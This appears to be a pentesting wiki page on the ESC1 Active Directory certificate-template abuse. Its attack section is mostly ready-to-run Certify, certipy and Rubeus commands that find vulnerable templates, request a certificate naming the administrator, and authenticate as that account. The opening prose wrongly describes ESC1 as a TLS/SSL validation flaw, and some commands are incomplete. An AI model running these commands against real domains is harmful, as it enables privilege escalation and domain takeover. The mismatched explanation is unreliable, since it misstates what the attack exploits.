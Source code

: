 # ESC1 – Understand the Arbitrary Subject Alternative Name Vulnerability

### ESC1 – Understand the Arbitrary Subject Alternative Name Vulnerability

The Arbitrary Subject Alternative Name (SAN) Vulnerability refers to a security flaw in certificate validation mechanisms of TLS/SSL protocols.&#x20;

This vulnerability allows attackers to issue certificates that include unauthorized domain names in the SAN field, potentially enabling phishing attacks or man-in-the-middle (MITM) attacks.&#x20;

It stems from inadequate verification of the entities that request certificates and the domains listed in the SAN field.

To mitigate this vulnerability, it's essential to:

* Implement strict validation processes for certificate requests, ensuring that the entity requesting the certificate has legitimate control over the domains listed in the SAN field.
* Use Certificate Transparency logs to monitor and identify potentially malicious certificates.
* Employ modern TLS libraries and configurations that adhere to best practices in certificate validation.

To **find vulnerable certificate templates** you can run:



{% tabs %}
{% tab title="Windows" %}
```
Certify.exe find /vulnerable
```
{% endtab %}

{% tab title="Linux" %}
```
certipy find -u john@corp.local -p Passw0rd -dc-ip 172.16.126.128
```
{% endtab %}
{% endtabs %}

To **abuse this vulnerability to impersonate an administrator** one could run:

{% tabs %}
{% tab title="Windows" %}
```
Certify.exe request /ca:dc.theshire.local-DC-CA /template:VulnTemplate /altname:localadmin
```
{% endtab %}

{% tab title="Linux" %}
```
certipy req 'corp.local/john:Passw0rd!@ca.corp.local' -ca 'corp-CA' -template 'ESC1' -alt 'administrator@corp.local'
```
{% endtab %}
{% endtabs %}

Then you can transform the generated **certificate to `.pfx`** format and use it to **authenticate using Rubeus or certipy** again:

```bash
Rubeus.exe asktgt /user:localdomain /certificate:localadmin.pfx /password:password123! /ptt
certipy auth -pfx 'administrator.pfx' -username 'administrator' -domain 'corp.local' -dc-ip 
```

